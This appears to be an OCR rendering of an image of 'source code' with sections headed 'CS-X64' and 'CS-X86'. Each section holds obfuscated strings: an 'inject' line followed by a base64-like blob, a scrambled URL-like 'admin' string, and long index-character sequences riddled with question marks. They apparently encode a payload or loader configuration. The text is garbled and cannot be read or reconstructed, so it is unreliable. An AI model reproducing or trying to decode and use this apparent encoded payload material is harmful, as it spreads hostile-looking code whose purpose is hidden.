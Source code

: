 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

admins3???4|2,?w;6,B?;10?,a;?14,.;?18,??5;2?2???,0;??2????6,b??;30??,0;???34????,3;3??8????,e;????42??,m;???46,i??;50,R??;???54?,R;??58,H;????62?,0;6?6,g;????70,??%;74??,V;78??,W;82??,V;86???,j;???90,??%;???94??,x?;98,??b?;???1???02?,b;1???0?6,c;1????1????0,g;??11??4,L;1??18??,b;??122,??t;?126,h??;????130,u?;134,???m;|hA??r??wC?0h????B6m?la9???YY.??xy???C5z???U2???0?0LA???bvh?I0??xDn???3CL????Me?V???nBmr????NLi????NBqRy???U2R?T9???lH1??0???50gD???vgD??Ze%Vn?DV5w0??W????wlvV??zUYj?09z%???n????x????0x3lj?bzL??NbV?m?AcvgH?ghz??mL?BVwb?PfB????t??9???IThxE????r??uCL3m?=qqregred

chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv



